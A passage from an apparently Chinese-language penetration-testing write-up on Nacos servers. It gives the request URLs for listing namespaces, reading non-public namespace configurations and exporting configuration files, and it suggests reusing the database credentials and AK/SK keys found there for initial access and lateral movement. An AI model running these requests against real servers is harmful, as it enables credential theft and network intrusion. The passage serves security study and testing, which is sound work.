 ### 3.5.1 获取 Namespace 列表
```
http://ip:8848/nacos/v1/console/namespaces
```

![image](https://user-images.githubusercontent.com/84888757/209052061-590c5782-3443-4e15-a82f-db0ddab0f1bf.png)


### 3.5.2 读取非 public 空间的数据
读取配置数据时使用的 `tenant` 参数获取的就是 `namespace`，我们直接把 `tenant=namespace` 加进去构造请求，就可以读取到 **非** `public namespace` 的数据，如果 `tenant` 参数值为空就默认读取 `public namespace` 的数据。
```
http://ip:8848/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99&tenant=de9d95b2-9532-48ba-a0ea-549e4012cde6
```

![image](https://user-images.githubusercontent.com/84888757/209052632-57d9f2bb-2bb6-4a89-92de-37e0b9c6ba2c.png)

## 3.6 配置文件导出
### 3.6.1 获取 Namespace 列表
```
http://ip:8848/nacos/v1/console/namespaces
```

![image](https://user-images.githubusercontent.com/84888757/209052061-590c5782-3443-4e15-a82f-db0ddab0f1bf.png)


### 3.6.2 下载非public空间的数据
跟上面的类似，其中 `tenant` 为空默认下载 `public namespace` 的数据，如果要下载其他命名空间的配置文件则重复之前的先获取 `namespace` 然后赋值给 `tenant` 即可。

```
http://ip:8848/nacos/v1/cs/configs?export=true&tenant=de9d95b2-9532-48ba-a0ea-549e4012cde6&group=&appName=&ids=
```

<div align=center><img width="910" alt="image" src="https://user-images.githubusercontent.com/84888757/209053977-ad81fdad-350e-4e4f-a08c-2894f0d9b6a0.png" /></div>


![image](https://user-images.githubusercontent.com/84888757/209052891-f2ab5a4f-77ba-4530-b314-ef30a7c2d528.png)

## 3.7 后续利用思路
在 `Nacos` 中可能保存了很多配置文件信息，比如数据库连接信息、 `AK/SK` 等，将其制作成密码本进行打点或者内网横向都很有用。

# 0x04 参考链接
- https://mp.weixin.qq.com/s/Jwwd5ailKNhwR57ACXB1kQ
- [vulhub/nacos/CVE-2021-29441](https://github.com/vulhub/vulhub/blob/master/nacos/CVE-2021-29441/README.zh-cn.md)






